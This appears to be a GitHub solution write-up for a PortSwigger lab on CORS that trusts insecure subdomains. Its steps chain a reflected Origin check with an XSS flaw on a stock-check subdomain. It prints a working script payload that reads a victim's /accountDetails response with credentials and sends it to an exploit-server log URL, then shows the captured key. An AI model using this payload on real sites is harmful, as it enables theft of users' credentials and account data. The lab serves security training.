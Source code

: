 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/e3d0d699-deae-430c-b028-884e78ed19b6)

## Solution:

Check intercept is off, then use Burp's browser to log in and access your account page.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7a9efce5-9af3-4165-bf7a-6842d8889b68)

Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/d11c44cb-5c58-425d-9b3d-9e419a6942cb)

Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where lab-id is the lab domain name.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/569470a4-9524-49bb-9c93-812c88e0b2c7)

Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/94b463d9-d347-4c22-a119-6a847885b4fa)

Observe that the productID parameter is vulnerable to XSS.

In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID:

```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

API KEY: `jCkUW7z83FN87dkInpIercxUqPEm4Gid`
Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/85ac4ba7-1fc5-456b-b022-82db44996361)

